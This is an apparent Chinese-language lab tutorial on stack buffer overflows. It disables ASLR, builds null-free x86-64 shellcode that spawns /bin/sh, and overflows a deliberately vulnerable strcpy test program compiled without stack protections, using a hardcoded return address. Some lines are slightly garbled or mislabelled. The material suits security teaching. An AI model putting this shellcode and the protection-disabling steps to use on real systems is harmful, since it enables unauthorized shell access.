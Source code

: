 # 栈溢出攻击介绍

## 准备环境
> 关闭堆栈随机化：echo 0 > /proc/sys/kernel/randomize_va_space

## 编写shell code代码

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    int main(int argc, char **argv)
    {
        char *name[2];

        name[0] = "/bin/sh";
        name[1] = NULL;
        execve(name[0], NULL, NULL);
	    exit(0);
 
        return 0;
    }
	
> 首先，shellcode代码需要静态编译即`gcc -static shellcode.c -o shellcode`,
> 然后反汇编shellcode：objdump -saxd shellcode > shellcode.s，内容如下：

    000000000043d6b0 <__execve>:
    01:   f3 0f 1e fa             endbr64  
	02:   b8 3b 00 00 00          mov    $0x3b,%eax
    03:   0f 05                   syscall
    04:   48 3d 01 f0 ff ff       cmp    $0xfffffffffffff001,%rax  
	05:   73 01                   jae    43d6c4 <__execve+0x14>
    06:   c3                      retq
    07:   48 c7 c1 c0 ff ff ff    mov    $0xffffffffffffffc0,%rcx  
	08:   f7 d8                   neg    %eax
    09:   64 89 01                mov    %eax,%fs:(%rcx)
    10:   48 83 c8 ff             or     $0xffffffffffffffff,%rax  
	11:   c3                      retq
    12:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    13:   00 00 00   
	14:   90                      nop
	
    00000000004016d5 <main>:
    15:   55                      push   %rbp     
	16:   48 89 e5                mov    %rsp,%rbp
    17:   48 83 ec 20             sub    $0x20,%rsp
    18:   89 7d ec                mov    %edi,-0x14(%rbp)  
	19:   48 89 75 e0             mov    %rsi,-0x20(%rbp)
    20:   48 c7 45 f0 10 00 48    movq   $0x480010,-0x10(%rbp)
    21:   00   
	22:   48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
    23:   00 
    24:   48 8b 45 f0             mov    -0x10(%rbp),%rax  
	25:   ba 00 00 00 00          mov    $0x0,%edx
    26:   be 00 00 00 00          mov    $0x0,%esi
    27:   48 89 c7                mov    %rax,%rdi  
	28:   e8 a6 bf 03 00          callq  43d6b0 <__execve>
    29:   bf 00 00 00 00          mov    $0x0,%edi
    30:   e8 7c 77 00 00          callq  408e90 <exit> 
    31:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    32:   00 00 00 
    33:   66 90                   xchg   %ax,%ax
	
	Contents of section .rodata: 480000 01000200 00000000 00000000 00000000
	................
    480010 2f62696e 2f736800 00000000 00000000  /bin/sh.........
	
> 提取20行-28行，并将28行用01行-03行替换，可以得到一段未经过处理的shell code,如下

    01 movq   $0x480010,-0x10(%rbp)
	02 mov    -0x10(%rbp),%rax
    03 mov    $0x0, %edx
    04 mov    $0x0, %rsi
    05 mov    %rax,%rdi 
	06 mov    $0x3b, %eax
    07 endbr64
    08 syscall
	
> 01行中的0x480010地址的内容在rodata段上面，值为2f62696e 2f736800，即/bin/sh。但是在注入代码中不会存在这个值，因此需要将该静态存储值转换到栈中，转换后如下，

    01 sub $0x8, %rsp              # 开辟8个字节的栈空间
    02 mov $0x6e69622f, %rax       # 将/bin存放到rsp开始的连续4字节   
	03 mov %rax, (%rsp)
    04 mov $0x68732f2f, %rax       # 将//sh存放到rsp+4开始的连续4字节，占用8字节的栈空间
    05 mov %rax, 0x4(%rsp)
    06 mov $0x0, %edx
    07 mov $0x0, %rsi
    08 movq %rsp, %rdi
	09 mov $0x3b, %eax
    10 endbr64
    11 syscall
	
> 其中，由于我们采用的是栈攻击，并且是对strcpy进行攻击（strcpy是以'\0'作为结尾的，因此在shellcode里面不能有'\0'字符出现），因此需要将06-07行，09行进行转换，转换后结果为，

    sub $0x8, %rsp
    mov $0x6e69622f, %rax
    mov %rax, (%rsp)
    mov $0x68732f2f, %rax
    mov %rax, 0x4(%rsp)
    xor %edx, %edx
    xor %rsi, %rsi
    movq %rsp, %rdi
    xor %eax, %eax
    mov $0x3b, %al
    endbr64
    syscall
    add $0x8, %rsp
	
> 将如上，汇编编译成机器码，可以得到shellcode为，

    0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp
	0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
    0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
    0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
    0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
    0x31,0xd2,                               // xor    %edx,%edx 
    0x48,0x31,0xf6,                          // xor    %rsi,%rsi
    0x48,0x89,0xe7,                          // mov    %rsp,%rdi 
    0x31,0xc0,                               // xor    %eax,%eax
    0xb0,0x3b,                               // mov    $0x3b,%al
    0xf3,0x0f,0x1e,0xfa,                     // endbr64
    0x0f,0x05,                               // syscall
	
> 将这段shellcode作为strcpy的src参数，传递给dest，进行拷贝，编译运行，然后看运行效果。

## 被测试代码如下，

    #include <stdio.h>#include <string.h>
    #include <stdlib.h>
	
    #define MAX_SIZE 50     /*  buffer size in stack */

    /* X86_64 shell code */
    static char shell_code[] = { 
        0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp 
		0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
        0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
        0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
        0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
        0x31,0xd2,                               // xor    %edx,%edx
        0x48,0x31,0xf6,                          // xor    %rsi,%rsi
        0x48,0x89,0xe7,                          // mov    %rsp,%rdi
        0x31,0xc0,                               // xor    %eax,%eax
        0xb0,0x3b,                               // mov    $0x3b,%al
        0xf3,0x0f,0x1e,0xfa,                     // endbr64
        0x0f,0x05,                               // syscall
        0x48,0x83,0xc4,                          // nop
        0x08,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop --> aligned
        0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop -->
        0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop --> ebp
        0xa0,0xde,0xff,0xff,0xff,0x7f,0x00,0x00, // rip = shellcode address
    };

    static int string_copy(char * src)
    {
        char dest[MAX_SIZE];

        if (strcpy (dest, src) == NULL)
            printf ("strcpy failed\n");
        else 
            printf ("strcpy success\n");

        return 0;
    }

    int main(int argc, char *argv[])
    {
        return string_copy(shell_code);
    }

> 编译方式：gcc -g -z execstack -fno-stack-protector stack_test.c -o stack_test


> 注意：因为strcpy的目标缓冲区是50个字节，然后ebp占用8字节， rip占用8字节，栈对齐到16字节，因此shellcode需要80字节，而我们的shellcode不够80字节，剩下的用nop填充，即0x90。最后在rip的位置填充好的shellcode在栈上面的其实地址即可。
